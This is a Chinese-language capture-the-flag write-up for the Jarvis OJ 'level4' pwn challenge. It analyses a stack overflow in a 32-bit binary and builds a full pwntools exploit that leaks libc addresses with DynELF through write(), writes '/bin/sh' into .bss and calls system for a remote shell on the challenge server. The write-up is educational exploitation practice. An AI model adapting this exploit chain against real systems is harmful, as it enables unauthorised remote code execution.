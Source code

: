 # Jarvisoj--pwn--level4

## 题目分析

国际惯例，checksec一下

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

没有canary，没有地址随机化且栈不可执行，应该是栈溢出。

ida查看一波

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

```c++
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  return read(0, &buf, 0x100u);
}
```

此处存在溢出。但该elf中没有system，也没有/bin/sh，连个libc文件都不给。

那只能用leak泄露内存的手段(换另一种方式泄露出system的地址)，然后把'/bin/sh'写进bss段或者data段。

这里我们运用DynELF模块。

### DynELF--Resolving remote functions using leaks

Resolve symbols in loaded, dynamically-linked ELF binaries. Given a function which can leak data at an arbitrary address, any symbol in any loaded library can be resolved.
解析加载的，动态链接的ELF二进制文件中的symbols。给定一个可以在任意地址泄漏数据的函数，可以解析任何加载库中的任何symbols。

参数：

- **泄漏**（[*MemLeak*](https://pwntools.readthedocs.io/en/stable/memleak.html#pwnlib.memleak.MemLeak)） - 泄漏内存的pwnlib.memleak.MemLeak实例
- **pointer**（[*int*](https://docs.python.org/2.7/library/functions.html#int)） - 指向加载的ELF文件的指针
- **elf**（[*str*](https://docs.python.org/2.7/library/functions.html#str)*，*[*ELF*](https://pwntools.readthedocs.io/en/stable/elf/elf.html#pwnlib.elf.elf.ELF)） - 磁盘上ELF文件的路径，或已加载的路径`pwnlib.elf.ELF`。
- **libcdb**（[*bool*](https://docs.python.org/2.7/library/functions.html#bool)） - 尝试使用libcdb加速libc查找

## 利用思路

利用DynELF模块找到system的地址，但找不到'/bin/sh'这个字符串的地址。于是我们应控制read函数把'/bin/sh'写进bss段中。

### 第一步 利用DynELF泄露内存

查看栈

```
-00000088 buf             db ?
-00000087                 db ? ; undefined
。。。。。。。。。。。。。。。。。。。。。。。。
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

看出payload = ‘a' * (0x88+4) + ....

我们构造一下leak

```python
def leak(address):
    payload1='a'*(0x88+4)+p32(write_plt)+p32(vul_addr)+p32(1)+p32(address)+p32(4)
    conn.sendline(payload1)
    data=conn.recv(4)
    return data 
d=DynELF(leak,elf=ELF('./level4'))
```

### 第二步 求出system函数的地址和把'/bin/sh'写进bss段

查看ida，寻找bss段

```
.bss:0804A024 _bss            segment byte public 'BSS' use32
.bss:0804A024                 assume cs:_bss
.bss:0804A024                 ;org 804A024h
.bss:0804A024                 assume es:nothing, ss:nothing, ds:_data, fs:nothing, gs:nothing
.bss:0804A024                 public __bss_start
.bss:0804A024 __bss_start     db ?                    ; DATA XREF: deregister_tm_clones+5↑o
.bss:0804A024                                         ; deregister_tm_clones+1E↑o ...
.bss:0804A024                                         ; Alternative name is '__TMC_END__'
.bss:0804A024                                         ; completed.7181
.bss:0804A024                                         ; _edata
.bss:0804A025                 db    ? ;
.bss:0804A026                 db    ? ;
.bss:0804A027 unk_804A027     db    ? ;               ; DATA XREF: deregister_tm_clones↑o
.bss:0804A027 _bss            ends
```

可知 0x0804a024

也可以 elf.symbols['__bss_start'] 求出地址

system_addr = d.lookup('system', 'libc')

read_addr = elf.symbols['read']

利用read函数把 字符串'/bin/sh\x00'写入bss段
```
payload2='a'*(0x88+4) +p32(read_plt)+p32(vul_addr)+p32(0)+p32(bss_addr)+p32(8)
conn.sendline(payload2)
conn.send("/bin/sh\x00")
```
### 第三步 就是getshell了

exp:

```python
from pwn import *
conn=remote('pwn2.jarvisoj.com','9880')
e=ELF('./level4')

write_plt=e.symbols['write']
vul_addr=0x804844b
bss_addr=0x0804a024

def leak(address):
    payload1='a'*(0x88+4)+p32(write_plt)+p32(vul_addr)+p32(1)+p32(address)+p32(4)
    conn.sendline(payload1)
    data=conn.recv(4)
    return data 
    
d=DynELF(leak,elf=ELF('./level4'))

system_addr=d.lookup('system','libc')
print hex(system_addr)
read_plt=e.symbols['read']

payload2='a'*(0x88+4) +p32(read_plt)+p32(vul_addr)+p32(0)+p32(bss_addr)+p32(8)
conn.sendline(payload2)
conn.send("/bin/sh\x00")
payload3='a'*(0x88+4)+p32(system_addr)+'dead'+p32(bss_addr)
conn.sendline(payload3)
conn.interactive()
```

